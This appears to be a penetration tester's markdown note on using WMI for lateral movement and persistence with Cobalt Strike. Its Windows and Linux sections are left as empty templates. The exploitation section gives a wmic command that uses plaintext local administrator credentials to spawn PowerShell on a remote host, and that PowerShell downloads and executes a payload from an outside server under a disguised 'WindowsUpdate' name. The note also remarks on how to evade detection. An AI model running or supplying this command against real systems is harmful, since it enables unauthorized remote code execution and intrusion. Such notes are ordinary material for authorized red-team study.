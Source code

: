 ### Technical Overview
Windows Management Instrumentation (WMI) is Microsoft's implementation of the Web-Based Enterprise Management Model and can be used for a wide variety of tasks.

Since WMI has remoting capabilities, it can also be used for lateral movement. WMI used to be very hard to detect, but since sysmon introduced several event ID's that log WMI actions it is not as stealth as it once was.
###### OPSEC
WMI is loved by adversaries since it can be used as a trigger based mechanism to execute arbitrary code and is therefore an ideal persistence mechanism. 
- For example, trigger a C2 channel when the computer has been turned on for at least 1 hour.
# C2 - Cobalt Strike

## Enumeration 
Cobalt Strike uses WMI in it's built-in remote-exec command. However, once again, only supporting domain authentication.
-  We can get around this issue by performing our WMI command manually as this allows us to specify username and password (obviously, not OPSEC safe). 
- Note: We have gained access to Local admin credentials on the host so we cannot leverage CS WMI 
## Exploitation 

```powershell
shell wmic /NODE:fs01 /user:"FS01\Administrator" /password: "sup3rs3cr3tP@ssw0rd!!" process call create "powershell IEX ((new-object net.webclient).downloadstring('http://10.130.4.100:8888/WindowsUpdate'))"
```
![[Pasted image 20240412003731.png]]

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
